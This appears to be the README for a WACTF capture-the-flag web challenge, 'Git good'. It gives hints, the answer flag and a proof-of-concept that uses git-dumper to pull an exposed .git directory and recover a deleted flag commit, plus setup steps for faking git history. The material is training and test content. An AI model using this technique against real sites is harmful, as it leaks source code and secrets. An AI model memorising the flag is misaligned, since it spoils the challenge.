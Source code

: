 | metadata | <> |
|--- | --- |
| Developer Name(s) | Dean |
| Best Contact Slack handle / Email address | sysop.host@gmail.com/sysop_host (WACTF Slack) |
| Challenge Category | Web |
| Challenge Tier | 0 |
| Challenge Type | Container|

| Player facing | <> |
|--- | --- |
|Challenge Name | Git good |
|Challenge Description | You really have to be good to git this flag. Note: A small amount of directory bruteforcing is required for this challenge (ffuf is your friend). http://web-0 |
|Challenge Hint 1 | Common wordlists will find the thing [this might be useful](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt) |
|Challenge Hint 2 | You better git dumping that thing you found [this might be useful](https://github.com/arthaud/git-dumper)|

| Admin Facing | <> |
|--- | --- |
|Challenge Flag| WACTF{isnt_git_great} |
|Challenge Vuln| Templated web app with `.git` dir present in `/env/.git`. A basic blacklist has been set to require challenge players to configure their chosen dir-bustering tool with the requisite user-agent option. Within the git repo is a flag that has been added and removed, and has been followed by a bunch of other commits just to fill out the log. |
|Docker Usage Idle | 2% CPU / 15MB RAM |
|Docker usage Expected Peak | 20% CPU / 20MB RAM |

---

Challenge PoC

1. Run `python3 git-dumper.py http://challenge.server/env/.git/ ./some_output_dir` (script located [here](https://github.com/arthaud/git-dumper))
2. `cd some_output_dir`
3. `git checkout b97c2a177567ae7d55eb12c3b65a6b74b1198d0a`
4. `cat flag.txt`

---

## Setup Info (if recreating the git repo)

### Create git repo with faked history

Do this inside `/env`

```
git init
git config user.name wactf
git config user.email wactf@capture.tf/
npx fake-git-history --startDate "2020/09/01" --endDate "2020/09/26"
echo "<FLAG CONTENT>" > flag.txt
git add flag.txt
git commit --date 2020/09/26 -m "flag create"
git rm flag.txt
git commit --date 2020/09/27 -m "flag delete"
npx fake-git-history --startDate "2020/09/27" --endDate "2020/10/15"
```
